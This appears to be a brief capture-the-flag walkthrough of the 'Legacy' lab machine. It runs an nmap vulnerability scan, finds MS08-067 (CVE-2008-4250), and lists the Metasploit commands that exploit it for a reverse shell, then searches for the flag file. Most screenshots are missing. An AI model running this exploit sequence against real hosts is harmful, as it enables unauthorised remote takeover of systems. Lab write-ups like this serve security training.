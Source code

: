 # Legacy

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We start with a quick scan ->

i have these ports:&#x20;

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```
nmap -p 445 --script vuln  10.129.29.238
```

**--script vuln:** Checks for specific known vulnerabilities and generally only report results if they are found

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption><p>CVE-2008-4250</p></figcaption></figure>

i run msfconsole ->

```
search ms08-067
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```
use 0
options
set lhost 10.10.14.166
set rhosts 10.129.29.238
exploit
```

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

there is a lot of file so let's look for the file we're interested in :

```bash
search -f user.txt
c:\Documents and Settings\john\Desktop\user.txt
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

and for some reason the root file was not protected by any privesc...

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (700).png" alt=""><figcaption></figcaption></figure>
